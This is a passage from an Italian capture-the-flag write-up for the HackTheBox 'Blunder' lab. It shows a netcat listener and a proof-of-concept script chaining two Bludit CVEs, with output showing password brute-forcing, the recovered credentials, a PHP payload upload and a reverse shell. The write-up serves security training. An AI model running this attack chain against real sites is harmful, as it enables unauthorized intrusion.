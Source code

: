 Praticamente lo script non fa altro che concatenare le due vulnerabilità.
Una volta scaricato lo eseguiamo seguendo le istruzioni come segue

Per prima cosa ci mettiamo in ascolto con nc
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 1234
listening on [any] 1234 ..
```

ed eseguiamo 

```bash
┌──(root㉿kali)-[/home/kali/htb/blunder]
└─# python3 poc.py

     _____      _    ______  _____  _____
    |  __ \    | |   | ___ \/  __ \|  ___|
    | |  \/ ___| |_  | |_/ /| /  \/| |__
    | | __ / _ \ __| |    / | |    |  __|
    | |_\ \  __/ |_ _| |\ \ | \__/\| |___
     \____/\___|\__(_)_| \_| \____/\____/

    This exploit combines CVE-2019-17240 & CVE-2019-16113 to gain remote shell on target.

    Created by: kisho64 (@h_a_m_i__)

Enter target URL (i.e. https://target.com): http://10.10.10.191
[ ~ ] Enter listener's IP: 10.10.14.24
[ ~ ] Enter listener's port: 1234
[...] Checking if the target is live...
[ + ] The target is live! We are good to go...

[ ~ ] Should I bruteforce username? [Y/N]: N
[ ~ ] What username should I use? (leave this to use admin as username): fergus
[ ~ ] Enter the location for password list: /home/kali/htb/blunder/wordlist.txt
[ * ] Tried: CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[ * ] Tried: the
[ * ] Tried: Load
[ * ] Tried: Plugins
[ * ] Tried: and
[ * ] Tried: for
[ * ] Tried: Include
[ * ] Tried: Site
...<snip>...
[ * ] Tried: character
[ * ] Tried: RolandDeschain
[ + ] Creds found: fergus:RolandDeschain

[...] Attempting to login now...
[ + ] Login succeed... We are good to go :)

[ + ] The payload sbRyVnWevZ.php has been uploaded...
[ + ] The payload .htaccess has been uploaded...

[...] Attempting to get a shell... @ http://10.10.10.191/bl-content/tmp/sbRyVnWevZ.php
[ + ] You should be getting a shell by now, if not open http://10.10.10.191/bl-content/tmp/sbRyVnWevZ.php
```
